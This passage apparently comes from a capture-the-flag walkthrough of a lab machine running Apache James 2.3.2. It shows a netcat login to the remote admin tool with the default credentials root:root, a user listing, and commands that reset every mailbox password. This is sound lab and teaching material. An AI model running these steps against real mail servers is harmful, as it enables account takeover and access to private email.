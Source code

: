 I didn't find anything interesting, so I'll move on to exploring a different service.


Port 4555,119,110,25 - James Mail Server

The `nmap SMTP scan` shows that `root` is a valid user. I'll try default credentials for James Remote Admin Tool on Port 4555.

Connecting to James Mail Server via `netcat` using `root:root`.
```
nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

List commands
```
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit  
```

Getting users via `listusers`
```
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Set the password for all of the accounts listed via `setpassword`
```
setpassword james r00t3d
setpassword thomas r00t3d
setpassword john r00t3d
setpassword mindy r00t3d
setpassword mailadmin r00t3d
```
